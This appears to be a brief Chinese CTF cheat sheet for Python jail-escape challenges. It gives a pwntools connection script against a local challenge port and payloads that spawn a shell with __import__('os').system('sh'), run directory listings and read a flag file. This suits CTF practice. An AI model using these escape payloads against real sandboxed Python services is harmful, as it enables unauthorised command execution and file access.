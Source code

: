 关键词：jail

nc或python连接入口：
```
from pwn import *

server_ip = '127.0.0.1'
server_port = 26582

connection = remote(server_ip, server_port)

received_data = connection.recv().decode('utf-8')
send_data = received_data[-32:-26] + received_data[-23:-17]

print(received_data)

connection.sendline(send_data.encode('utf-8'))
connection.interactive()
connection.close()
```
一般会给你代码审计，然后连接入口后输入payload。


^
直接高权限命令读
```
__import__('os').system('sh') 返回交互式shell

__import__('os').system('ls -al /tmp')

__import__('subprocess').run('cd /tmp && ls -al', shell=True)
```

低权限文件读
```
print(open('/tmp/therealflag_b8c7f31438c67cea772d2ea57dc77918').read())
```